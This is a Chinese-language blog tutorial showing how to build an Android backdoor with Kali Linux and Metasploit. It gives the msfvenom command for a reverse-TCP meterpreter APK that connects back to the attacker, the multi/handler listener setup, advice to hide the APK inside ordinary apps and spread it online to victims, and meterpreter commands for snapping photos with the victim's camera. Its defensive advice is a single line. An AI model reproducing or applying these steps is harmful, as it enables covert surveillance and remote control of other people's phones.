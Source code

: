 ```yaml
---
title: "演示使用Metasploit入侵Android"
categories: [ "安全" ]
tags: [ "系统安全" ]
draft: false
slug: "演示使用Metasploit入侵Android-演示使用metasploit入侵android"
date: "2017-04-08 08:45:50"
---
```




文本演示怎么使用Kali Linux入侵Android手机。

Kali Linux IP地址：192.168.0.112；接收连接的端口：443。

![][1] 

同一局域网内android手机一部(android 5.1)

## 创建一个后门程序

在终端中执行：

    # msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=443 > my_backdoor.apk

这个后门程序(APK)是发送给受害者的；要把上面命令的IP地址替换为攻击者IP，当后门程序运行时，它会试图连接这个IP。

## 启动Metasploit－等待受害者启动后门程序

    msfconsole

![][2] 

依次执行：

    msf > use exploit/multi/handler
        > set payload android/meterpreter/reverse_tcp
        > set lhost 192.168.0.112
        > set lport 443
        > exploit

![][3] 

## 分发后门程序

一般后门程序都打包到正常app中，反正就是各种藏；

借助internet分发后门程序。

闲话不多书，这里我在自己的android手机上安装运行带后门的apk。

![][4] 

病毒！！！

## 控制受害者手机

受害者运行后门程序之后，就可以使用Metasploit控制他了：

![][5] 

使用help查看可以使用的命令：

![][6] 

例如使用对方的摄像头拍照：

    > webcam_list
    > webcam_snap

怎么防范：

  * 不要安装不信任的apk

![][7]

 [1]: /uploads/oss/2017-04-25-14916411615769.png ""
 [2]: /uploads/oss/2017-04-25-14916412005880.png ""
 [3]: /uploads/oss/2017-04-25-14916412189083.png ""
 [4]: /uploads/oss/2017-04-25-14916412390423.jpg ""
 [5]: /uploads/oss/2017-04-25-14916412586255.png ""
 [6]: /uploads/oss/2017-04-25-14916412682896.png ""
 [7]: /uploads/oss/2017-04-25-14916413029124.png ""